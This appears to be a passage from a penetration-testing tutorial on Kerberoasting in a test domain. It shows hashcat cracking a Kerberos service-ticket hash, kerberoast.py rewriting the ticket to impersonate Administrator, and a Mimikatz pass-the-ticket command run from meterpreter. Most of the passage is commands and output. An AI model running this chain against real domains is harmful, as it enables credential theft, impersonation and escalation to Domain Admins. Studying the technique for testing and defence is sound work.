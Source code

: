 ```
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*1-40a10000-Administrator@HTTP~testServ...c115e3
Time.Started.....: Tue Jan 10 07:41:11 2023 (0 secs)
Time.Estimated...: Tue Jan 10 07:41:11 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (0.03ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Candidates.1.....: test123  -> N0tpassword!
```

If you want to view the hash + cracked password at a later date run the above command with `--show` appended.

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt --show
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>
39efa046757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2695476093ddbd087c115e3:N0tpassword!
```

**Rewrite Service Tickets & RAM Injection**

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible
to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow users
to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege
escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
➜  kerberoast git:(master) ✗ python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500
```

The new ticket can be injected back into the memory with the following Mimikatz command in order to perform
authentication with the targeted service via Kerberos protocol.

```
meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi
```
